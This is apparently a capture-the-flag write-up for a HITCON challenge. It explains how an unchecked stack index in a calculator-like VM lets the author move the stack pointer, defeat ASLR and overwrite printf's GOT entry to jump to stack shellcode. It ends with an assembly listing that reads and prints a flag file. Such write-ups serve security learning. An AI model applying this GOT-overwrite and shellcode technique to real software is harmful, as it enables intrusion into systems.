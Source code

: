 Apparently, unlike other code, this function did not check the stack index to
whether if it would be out of bounds. Intrestingly, the stack pointer happens to
reside directly before the operand stack, so I can change the stack pointer to
*anything* I want. Boom! Exploit found. (Though in my weary state, I naively
chose to change it with -1, so I ended up doing a LOT of pivots to get to where
I need).

So now I needed to figure out how to get
code control. Instinctively, I thought of ret-to-libc to get shell. In
hindsight, I'm glad I didn't go down that route, because it was until later I
found out that a lot of the syscalls (include execve) were actually NOT 
implemented. At that point, I saw that a hint was released saying if there was
NX. I thought for a moment, yeah duhh... but as I thought for a moment, maybe
the kernel may not have enabled NX.

So I tried just simply modifying the GOT entry for printf, which was the logical
choice since it was only used when printing a number. Now the only remaining
issue was with trying to figure out a way around ASLR. This involved doing a
little bit more calculations within the reverse-polish calculator-esque program,
which was quite interesting. Then after that I modified the GOT entry to jump to
a shell code, which I prepared at the beginning of the stack. To do this I ended
up writing an [assembler][1] to both assemble the shellcode in a way that would
prepare my shellcode, and then run the operations to overwrite GOT entry. Here
is my special "assembly" code. I used a `ASM` and `ENDASM` block to denote a
block of assembly code. 

```asm
# Stack = 0x2020A0
# 

0 # padding
ASM
  # Open file
  lea rdi, [rip + flag]
  xor esi, esi # O_RDONLY
  mov eax, 2
  syscall

  # If an error occurs, exit
  mov ecx, eax
  cmp ecx, 0
  jl exit

  # Read from file
  mov edi, eax
  mov rsi, rsp
  mov edx, 0x100
  mov eax, 0
  syscall

  # If error occurs exit
  mov ecx, eax
  cmp ecx, 0
  jl exit
  
  # Write flag that we read
  mov edi, 1
  mov rsi, rsp
  mov edx, eax
  mov eax, 1
  syscall

  mov ecx, 0

exit:
```

[1]: /files/hitcon/abyss/assembler.py